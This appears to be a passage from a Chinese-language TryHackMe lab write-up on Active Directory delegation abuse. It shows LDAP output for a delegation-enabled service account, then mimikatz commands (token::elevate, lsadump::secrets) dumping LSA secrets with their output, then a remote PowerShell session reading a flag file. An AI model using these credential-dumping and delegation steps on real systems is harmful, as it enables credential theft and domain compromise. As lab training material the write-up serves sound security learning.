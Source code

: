 objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=tryhackme,DC=loc
dscorepropagationdata    : 1/1/1601 12:00:00 AM
serviceprincipalname     : HTTP/svcServWeb.za.tryhackme.loc
givenname                : IIS
lastlogon                : 8/12/2022 2:26:43 AM
badpwdcount              : 0
cn                       : IIS Server 
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated              : 4/27/2022 11:26:21 AM
primarygroupid           : 513
pwdlastset               : 4/29/2022 11:50:25 AM
usnchanged               : 147551

```

 svcIIS 帐户可以委托 THMSERVER1 上的HTTP和 WSMAN 服务


因为上面得到的t2_henry.harvey是本地管理员，可以导出本地哈希密码
```
PS C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53  
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                   
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz                   
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz # token::elevate 
Token Id  : 0 
User name :   
SID name  : NT AUTHORITY\SYSTEM 

488     {0;000003e7} 1 D 17550          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary 
 -> Impersonated !                                                                                      
 * Process Token : {0;001c4448} 0 D 2471194     ZA\t2_henry.harvey      S-1-5-21-3885271727-2693558621-2658995185-4275  (12g,24p)       Primary 
 * Thread Token  : {0;000003e7} 1 D 2503814     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)              
                                                                                                                                   
mimikatz # lsadump::secrets                                                                                                        
Domain : THMWRK1 
SysKey : a1403e57976b472bce5f231922ca3942

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 ) 
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc 

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463 


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt